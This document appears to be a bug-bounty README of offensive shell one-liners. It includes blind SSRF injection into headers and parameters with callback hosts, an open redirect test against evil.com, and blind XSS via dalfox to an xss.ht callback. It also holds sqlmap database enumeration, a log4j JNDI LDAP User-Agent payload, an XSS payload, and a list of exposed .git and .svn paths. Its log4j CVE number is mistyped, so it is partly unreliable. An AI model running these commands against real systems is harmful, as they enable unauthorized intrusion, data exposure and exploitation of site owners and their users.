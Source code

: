# Blind SSRF Oneliner(X-Forwarded-Host):

`echo "testphp.vulnweb.com"|assetfinder|httprobe|while read url; do ssrf=$(curl -s -L $url -H "X-Forwarded-Host: pingb.in/p/6305faa38a067b8717e6d09db07f");echo -e "$url -> X-Forwarded-Host: injected";done`

`echo "testphp.vulnweb.com"|assetfinder|httpx|while read url; do ssrf=$(curl -s -L $url -H "X-Forwarded-Host: pingb.in/p/6305faa38a067b8717e6d09db07f");echo -e "$url -> X-Forwarded-Host: injected";done`

# Blind SSRF Oneliner:

`cat wayback.txt|gf ssrf |qsreplace 'https://your-burp-collab.com'|while read url; do ssrf=$(curl -s -L $url);echo -e "$url --> PAYLOAD-INJECTED-SUCCESSFULLY";done`

`cat wayback.txt|gf ssrf |grep -a -i \=http|qsreplace 'https://your-burp-collab.com'|while read url; do ssrf=$(curl -s -L $url);echo -e "$url --> PAYLOAD-INJECTED-SUCCESSFULLY";done`

# Open Redirect Oneliner:

`cat waybackurls_result.txt|grep -a -i \=http|qsreplace 'http://evil.com'|while read host do;do curl -s -L $host -I|grep "evil.com" && echo "$host \033[0;31m[+]VULNERABLE-TO-OPEN-REDIRECT-ATTACK\n";done`

# Blind XSS Oneliner:

`echo testphp.vulnweb.com|gau -subs|grep "https://" |grep -v "png\|jpg\|css\|js\|gif\|txt"|grep "="|uro|dalfox pipe --deep-domxss --multicast --blind akshayravi0479.xss.ht`

# Content Discovery With Dirsearch Oneliner:

`dirsearch -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json -u http://target`

# SQLI Oneliner With Sqlmap:
```
1 subfinder -d target.com|tee -a domains.txt
2 cat domains.txt|httpx|tee -a urls-alive.txt
3 cat urls-alive.txt|waybackurls|tee -a urls-check.txt
4 gf sqli urls-check.txt >> sql.url
5 sqlmap -m sql.url --dbs --batch
```

# CVE-2021-4428 log4j Oneliner With User-Agent Payload:

`while read url; do log4=$(curl -s -L $url -H User-Agent: "$\{jndi:ldap://your-pingback-client-url.com}");echo -e "$url -> User-Agent: Fired";done`

# Scan Ports and Vulnerabilities CVE using nrich

```
https://gitlab.com/shodan-public/nrich
https://github.com/projectdiscovery/dnsx
```

![nrich](https://user-images.githubusercontent.com/58636452/157049702-6afd8a8a-5858-42d7-9ef4-3d94b650d69c.jpg)

# Open Redirect:
```
https://target[.]com///google[.]com/  --> 404 Not found
https://target[.]com///google[.]com/?qwerty  --> Redirects to google[.]com
```
# XSS Scanner

```
echo https://target.com | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
```
# Dir-enum-list:
```
/.git
/.git-rewrite
/.git/HEAD
/.git/index
/.git/logs
/.gitattributes
/.gitconfig
/.gitkeep
/.gitmodules
/.gitreview
/.svn/entries
/.svnignore
```
# Favicon Hash Finder pythn script:
```
import mmh3,requests,codecs,sys,urllib3

urllib3.disable_warnings()

response =requests.get(sys.argv[1], verify=False)
favicon = codecs.encode(response.content,'base64')
hash= mmh3.hash(favicon)
print('[+]shodan search query: http.favicon.hash:'+str(hash))
```
